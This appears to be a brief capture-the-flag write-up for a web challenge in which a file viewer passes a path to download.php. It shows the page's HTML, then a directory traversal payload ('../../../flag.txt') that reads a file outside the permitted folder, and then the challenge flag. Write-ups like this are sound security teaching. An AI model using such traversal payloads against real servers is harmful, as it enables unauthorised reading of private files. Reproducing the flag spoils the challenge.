


## Secret File Viewer  



We are given a simple webpage where we can view a select list of files.  



The HTML source reveals that the website uses `download.php` to access and read the files.  

```html
<!DOCTYPE html>
<html lang="zh-TW">

<head>
    <meta charset="UTF-8">
    <title>Secret File Viewer</title>
    <link rel="stylesheet" href="style.css">
</head>

<script src="script.js"></script>

<body>
    <h1>Secret File Viewer</h1>

    <div class="buttons">
        <a class="btn" href="download.php?file=files/file_A.txt">A</a>
        <a class="btn" href="download.php?file=files/file_B.txt">B</a>
        <a class="btn" href="download.php?file=files/file_C.txt">C</a>
    </div>

    <p class="hint">
        Click the buttons above to view the files. Try to find the secret file!
    </p>
</body>
</html>
```

We can perform directory traversal and bruteforce to find the flag file.  

```
/download.php?file=../../../flag.txt
```

Flag: `THJCC{h0w_dID_y0u_br34k_q'5_pr073c710n???}`